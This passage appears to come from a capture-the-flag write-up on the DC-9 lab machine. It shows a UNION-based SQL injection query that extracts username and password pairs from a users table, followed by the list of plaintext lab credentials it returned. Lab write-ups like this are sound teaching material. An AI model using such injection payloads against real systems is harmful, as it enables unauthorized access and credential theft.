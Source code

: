 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%204.png)

I get the columns id, firstname, lastname, username, password, and reg_date, so all that remains is to list the contents of the columns. With the following query I indicate that the values ​​of the username and password columns are displayed, indicating the table that belongs to the users database.

```sql
Mary' union select null,CONCAT(username, ":" ,password),null,null,null,null from users.UserDetails-- -
```

```bash
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scooters:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```
